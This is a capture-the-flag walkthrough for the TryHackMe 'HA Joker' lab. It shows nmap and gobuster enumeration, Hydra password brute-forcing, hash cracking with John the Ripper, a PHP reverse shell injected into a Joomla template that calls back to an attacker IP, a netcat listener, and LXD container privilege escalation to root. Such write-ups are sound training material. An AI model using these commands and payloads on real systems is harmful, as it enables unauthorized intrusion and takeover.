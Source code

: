 # [HA Joker CTF](https://tryhackme.com/room/jokerctf)

## Batman hits Joker.

# HA Joker CTF

## We have developed this lab for the purpose of online penetration practices. Solving this lab is not that tough if you have proper basic knowledge of Penetration testing. Let’s start and learn how to breach it.

### What version of Apache is it?

1. First, we need to perform a basic port scan to identify open services and their versions. We'll use Nmap with the `-sV` flag to enable version detection
   - From the scan results, we can see that the machine is running **Apache version 2.4.29**

```Bash
nmap -sV IP
```

[SCREEN01]

### What port on this machine not need to be authenticated by user and password?

1. For more detailed information about the open ports, let's run another Nmap scan with the `-sC` flag to enable default scripts
   - Analyzing the results, we can determine that **port 80** is accessible without authentication, while port 8080 requires credentials

```Bash
nmap -sC IP
```

[SCREEN02]

### There is a file on this port that seems to be secret, what is it?

### There is another file which reveals information of the backend, what is it?

1. Enumerate the web directories on port 80 using Gobuster to discover hidden files and directories
   - We discovered two interesting files: **secret.txt** and **phpinfo.php**

```Bash
gobuster dir -u http://IP:80 -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,js
```

[SCREEN03]

### When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?

1. Examine the content of the secret.txt file by navigating to `http://IP/secret.txt` in our browser
   - Upon reading the file, we find a conversation that mentions a user named **joker**

[SCREEN04]

### What port on this machine need to be authenticated by Basic Authentication Mechanism?

1. Referring back to our initial Nmap scan results, we identified that port **8080** requires authentication using HTTP Basic Authentication

```Bash
nmap -sC IP
```

[SCREEN02]

### At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?

1. Now that we have a potential username, let's attempt to brute force the password for this account using Hydra

```Bash
hydra -l joker -P /root/Tools/wordlists/rockyou.txt IP http-get -s 8080 /
```

[SCREEN05]

### Yeah!! We got the user and password and we see a cms based blog. Now check for directories and files in this port. What directory looks like as admin directory?

### We need access to the administration of the site in order to get a shell, there is a backup file, What is this file?

1. With valid credentials, we need to further enumerate the web application on port 8080. We can use Nikto or Gobuster for this task
   - From scan results, we identify two important directories: `/administrator` and `/backup`

```Bash
nikto -h http://IP:8080 -id joker:hannah
```

Or

```Bash
gobuster dir -u http://IP:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -U joker -P hannah
```

[SCREEN06]

### We have the backup file and now we should look for some information, for example database, configuration files, etc ... But the backup file seems to be encrypted. What is the password?

1. The backup file appears to be password protected. We'll use zip2john to extract the hash and then crack it with John the Ripper

```Bash
zip2john backup.zip > hash.txt
john hash.txt
```

[SCREEN07]

### Remember that... We need access to the administration of the site... Blah blah blah. In our new discovery we see some files that have compromising information, maybe db? ok what if we do a restoration of the database! Some tables must have something like user_table! What is the super duper user?

1. After extracting the backup.zip file, we find a database backup named joomladb.sql. Let's analyze it to find user information
   - This reveals a user described as "Super Duper User" with the username **admin**

```Bash
grep -i "duper" joomladb.sql
```

[SCREEN08]

### Super Duper User! What is the password?

1. To find the admin's password, we extract hash from the SQL file and save it to a text file `hash.txt`

```Bash
john hash.txt
```

[SCREEN09]

### At this point, you should be upload a reverse-shell in order to gain shell access. What is the owner of this session?

### This user belongs to a group that differs on your own group, What is this group?

1. With admin credentials for the Joomla CMS, we can now upload a reverse shell. We'll navigate to `http://IP:8080/administrator/index.php?option=com_templates&view=template&id=503&file=L2Vycm9yLnBocA%3D%3D`

2. In the template editor, we'll insert a [PHP reverse shell](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php)

```php
<?php
// Set Your IP and Port
$ip = '10.10.76.165';
$port = 4444;

// Open Connection on Your Machine
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);

?>
```

[SCREEN10]

3. Before triggering the shell, we'll set up a netcat listener on our attacking machine

```Bash
nc -lvnp 4444
```

4. Then we trigger the shell by visiting `http://IP/templates/beez3/error.php`,
   - Owner of the session is **www-data** and group is **lxd**

[SCREEN11]

### Spawn a tty shell.

1. To make our shell more usable, we'll spawn a proper TTY shell:

```Bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### What is the name of the file in the /root directory?

1. Since our user is a member of the lxd group, we can exploit this to gain root access. First, we check for existing LXD images

```Bash
lxc image list
```

2. On our attacking machine, we'll prepare an Alpine Linux container image:

```Bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder/
python -m SimpleHTTPServer
```

3. Back on the target machine, download and import this image. Create and configure a privileged container with the host filesystem mounted inside. Finally, execute a shell inside the container and browse to the host's root directory

```Bash
cd /tmp
wget http://IP:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
cd /mnt/root/root
ls
```

[SCREEN12]
